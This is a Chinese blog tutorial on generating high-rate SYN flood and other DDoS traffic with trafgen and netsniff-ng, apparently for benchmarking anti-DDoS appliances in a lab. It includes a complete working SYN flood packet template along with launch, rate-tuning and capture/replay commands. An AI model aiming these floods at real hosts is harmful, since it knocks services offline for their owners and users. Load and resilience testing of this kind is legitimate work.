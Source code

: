```yaml
---
title: 高性能流量生成工具trafgen(DDoS模拟)
layout: post
author: WenfengShi
category: 技术
tags: [network, security, tools]
---
```

> 因项目需要，要对主流的几家抗DDoS设备做测评，当然了最专业的是使用Spirent TestCenter，但受限于其他因素，最终决定搭建一个软件环境来进行相关的DDoS测试。

> 本文主要讲解的是如何使用trafgen工具发起DDoS攻击(syn flood, ack flood等等)  
  
> synflood攻击、ackflood攻击、UDP fragment攻击的详细配置文件见 [github ddos-dos-tools][1]  

## 工具选择
1. 开源的流量生成工具很多，可用于模拟DoS攻击的工具也不在少数，如hping、scapy（python库）等等，但均存在着不足，如性能不够，不能模拟DDoS攻击（攻击流IP和PORT不能动态变化）
2. 通过详细的对比测试（同hping、scapy、LOIC等对比测试，具体数据不宜公开），最后统一选择了**netsniff-ng**套件中的**trafgen**攻击，其在测试环境中可达到**24万pps**的SYNFLOOD攻击，是一款高速、多线程网络数据包生成工具
3. trafgen 工具能够动态生成攻击IP和端口号，能够通过配置文件动态修改攻击包的内容

## 简单使用
### 1. 安装
trafgen属于netsniff-ng套件，是一款linux下的工具，安装很方便，通过系统的在线安装工具即可完成安装，如centos下`yum install netsniff-ng`即可
### 2. 使用（SYN Flood攻击）
1. 工具的比较简单，主要是配置文件的编写，假设已经写好了一个synflood配置文件
- 键入命令`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose`即可发起攻击
- 进一步的还可通过`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose --gap 1000` （以毫秒为单位）来调节速度
- 进一步的还可通过`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose --kernel-pull 20` (默认10us）来调节速度
- 详细的可以`man trafgen`

2. 配置文件解读（以synflood.trafgen文件为例）
- *synflood.trafgen* 模版，trafgen就是通过该文件来生成特定的数据包的！看配置文件的注释基本能清除如何修改

```
/* TCP SYN attack ( 64byte )
 * Command example:
 *  trafgen --cpp --dev em2 --conf synflood.trafgen --verbose
 * Note: dynamic elements "drnd()" make trafgen slower
 */

#define ETH_P_IP	0x0800

#define SYN		(1 << 1)
#define ACK		(1 << 4)
#define ECN		(1 << 6)

{
  /* --- Ethernet Header --- */
  /* NEED ADJUST */
  // 0x00, 0x12, 0xc0, 0x02, 0xac, 0x56,  # MAC Destination
  // 0x00, 0x12, 0xc0, drnd(3),  # MAC Source
  0xf4, 0xe9, 0xd4, 0x8d, 0x04, 0x82, # MAC Destination
  0xf4, 0xe9, 0xd4, 0x8c, 0xe2, 0xa2, # MAC Source
  
  const16(ETH_P_IP),
  /* IPv4 Version, IHL, TOS */
  0b01000101, 0,
  /* IPv4 Total Len */
  const16(46),
  /* IPv4 Ident */
  drnd(2),
  //const16(2),

  /* IPv4 Flags, Frag Off */
  0b01000000, 0,
  /* IPv4 TTL */
  64,
  /* Proto TCP */
  0x06,
  /* IPv4 Checksum (IP header from, to) */
  csumip(14, 33),

  /* NEED ADJUST */
  // 10, 10, 88, drnd(1), # Source IP
  10, 10, 88, 173,  # Source IP
  10, 10, 88, 172, # Dest IP

  /* TCP Source Port */
  drnd(2),
  /* TCP Dest Port */
  const16(80),
  /* TCP Sequence Number */
  drnd(4),
  /* TCP Ackn. Number */
  const32(0), /* NOTICE ACK==zero with SYN packets */

  /* TCP Header length + Flags */
  //const16((0x5 << 12) | SYN | ECN)	/* TCP SYN+ECN Flag */
  //const16((0x5 << 12) | SYN | ACK)	/* TCP SYN+ACK Flag */
  const16((0x5 << 12) | SYN)		/* TCP SYN Flag */
  //const16((0x5 << 12) | ACK)		/* TCP ACK Flag */

  /* Window Size */
  const16(16),
  /* TCP Checksum (offset IP, offset TCP) */
  csumtcp(14, 34),
  const16(0), /*PAD*/
  
  /* Data */
  "SYNswf"
}
```

- 配置文件可通过`drnd()`函数来实现对应内容的动态生成，如IP、MAC地址等，但是会影响性能

![image_1b6bf8ooa3im1ioc1kc7aeu1qo89.png-6kB][2]

- 修改MAC地址（攻击/被攻击MAC地址）

![image_1b6bfeukr5m628h14ciupq1tnnm.png-11.8kB][3]

- 修改IP地址和攻击协议及端口号，`const16()`将对应的十进制数转换成一个16位的二进制数

![image_1b6bftaek14a4il1fp5l3dr5213.png-15kB][4]

- 修改位SYN标志(根据情况也可修改为其他的)

![image_1b6bfv9751ojs1g6klulc4jaak1g.png-11.6kB][5]

### 3. ACKFlood 攻击
- 配置文件见 [github ddos-dos-tools][6]

### 4. UDP fragment 攻击
- 配置文件见 [github ddos-dos-tools][7]

### 5. 退出命令
统一退出命令`pgrep trafgen | xargs kill -s 9`


## 其他
1. 在trafgen性能仍达不到要求的情况下，可通过netsniff-ng攻击进行流量回放，如下
- 先捕获synfloog攻击数据包
`netsniff-ng --in ens33 --out synflood.pcap --silent --verbose --filter 'ether src 00:50:56:ab:a5:3f'`
`trafgen --cpp --dev ens33 --conf synflood.trafgen --verbose`
- 再重放synflood攻击数据包
`netsniff-ng --in synflood.pcap --out ens33 --silent --prio-high --verbose`
2. 在用trafgen进行实时流量生成或者netsniff-ng重放时，还可通过工具`tc`进行流量控制，具体请见["linux流量控制工具tc](http://)一文，简单举例如下
![image_1b6bgp1mntnf15a61bppjvs1f7a1t.png-15.8kB][8]



  [1]: https://github.com/wenfengshi/ddos-dos-tools
  [2]: http://static.zybuluo.com/wuzhimang/mhfkf1drooxo2ua6ty5cceed/image_1b6bf8ooa3im1ioc1kc7aeu1qo89.png
  [3]: http://static.zybuluo.com/wuzhimang/c9tv8lr5a7elsipj8zwjl6tl/image_1b6bfeukr5m628h14ciupq1tnnm.png
  [4]: http://static.zybuluo.com/wuzhimang/hujkjhes3d7n42iptoaovv2o/image_1b6bftaek14a4il1fp5l3dr5213.png
  [5]: http://static.zybuluo.com/wuzhimang/28r16zkja4memce251azvmx4/image_1b6bfv9751ojs1g6klulc4jaak1g.png
  [6]: https://github.com/wenfengshi/ddos-dos-tools
  [7]: https://github.com/wenfengshi/ddos-dos-tools
  [8]: http://static.zybuluo.com/wuzhimang/b16skp1a811ullz8hfuzq0h0/image_1b6bgp1mntnf15a61bppjvs1f7a1t.png
